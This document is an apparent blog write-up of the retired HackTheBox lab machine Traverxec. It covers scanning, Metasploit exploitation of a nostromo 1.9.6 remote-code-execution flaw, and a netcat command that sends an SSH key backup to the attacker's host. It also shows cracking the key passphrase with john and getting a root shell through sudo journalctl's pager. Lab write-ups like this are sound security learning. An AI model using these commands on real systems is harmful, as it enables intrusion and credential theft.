 ```yaml
---
title: "Traverxec"
collection: publications
permalink: /publication/traverxec
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-03
venue: '08-03'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/traverxec_header.png)

**LINK:** [Traverxec](https://app.hackthebox.com/machines/Traverxec)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
nmap -sV -sC -A -p- 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 06:19 EDT
Nmap scan report for 10.10.10.165
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 5.1 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the scan reveals 2 open ports :
 * ``SSH`` running on port 22.
 * ``Nostromo`` web server running on port 80.


* Visiting ``http://10.10.10.165``, we see this web page.

![traverxec1](/images/traverxec1.png)

# Initial foothold : 

* I spent some time exploring the web page( source code, hidden directories...) but i didn't find anything interesting.

* One of the information that we found earlier was the version of ``nostromo`` which is ``1.9.6``, a quick research on google i found that this version of ``nostromo`` is vulnerable to ``remote code execution``.

>[Exploit-DB](https://www.exploit-db.com/exploits/47837)
>[Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec/)

* I used ``metasploit`` to exploit this vulnerability, you can also use the python exploit that we found on ``Exploit-DB``.
* Let's fire up metasploit and choose the module related to this vulnerability

```bash
# msfconsole
msf > use exploit/multi/http/nostromo_code_exec
```

* Time to set some options before we exploit the server.

```bash
msf exploit(multi/http/nostromo_code_exec) > set target 1
msf exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
msf exploit(multi/http/nostromo_code_exec) > set LHOST <your-ip-address>
msf exploit(multi/http/nostromo_code_exec) > exploit
```

* After few seconds, we got the shell as ``www-data`` user.

![traverexec2](/images/traverexec2.png)


# User Flag : 

* Next step is to escalate our shell to ``David's``.
* Visiting the ``/var/nostromo/conf`` directory, we see a file named ``nhttpd.conf`` contains the web server configuration.

```bash
[snip]
# HOMEDIRS [OPTIONAL]

homedirs /home
homedirs_public public_www
[snip]
```

* This configuration indicates that there might be a folder named ``public_www`` in the user's home directory, earlier i did notice that the david's home directory is not readable, however the ``public_www`` is readable.

* the ``public_www`` folder contains a subfolder named ``protected-file-area`` where i found a compressed file named ``backup-ssh-identity-files.tgz``.

![traverexec3](/images/traverexec3.png)

* There are a lot of ways to transfer the compressed file to our local machine, i used ``netcat`` for this purpose.

* on our local machine : 

```bash
# nc -lvp 1234 > backup-ssh-identity-files.tgz
```
* On the victim machine : 

```bash
# nc <your-ip-address> 1234 < backup-ssh-identity-files.tgz
```

* Since it's a tar archive, let's use ``tar`` command to extract it.

```bash
# tar -xvf backup-ssh-identity-files.tgz
```

![traverexec4](/images/traverexec4.png)

* I found the private key for ``SSH``, so maybe we can login as ``david``.

```bash
chmod 400 id_rsa
```

* Unfortunately the privte key is encrypted so we need the passphrase.

![traverexec5](/images/traverexec5.png)

* let's try to crack it with ``john``, first we will extract the hash from the private key.

```bash
# ssh2john id_rsa > id.hash 
```

* Time to crack it 

![traverexec6](/images/traverexec6.png)

* Now that we have the passphrase let's login.

![traverexec7](/images/traverexec7.png)


# Root Flag : 

* There is a folder called ``bin`` inside david's home directory, let's examine the ``server-stats.sh`` script.

![traverexec8](/images/traverexec8.png)

* We can see that the last command is executed using ``sudo``, after executing the script we can see that it displays the last 5 lines of the nostromo service logs using journalctl.

* A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), i found out that ``journactl`` is exploitable because it invokes the default pager which is likely to be ``less``, the ``less`` command waits for user input after displaying the output so at that moment we can spawn a shell as sudo.

* before running the following command, you should resize the screen by maximizing it in order to spawn the shell : 

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

![traverexec9](/images/traverexec9.png)

* Enter the following command : 

```bash
!/bin/bash
```

![traverexec10](/images/traverexec10.png)

* Now it's time to get the root flag

![traverexec11](/images/traverexec11.png)












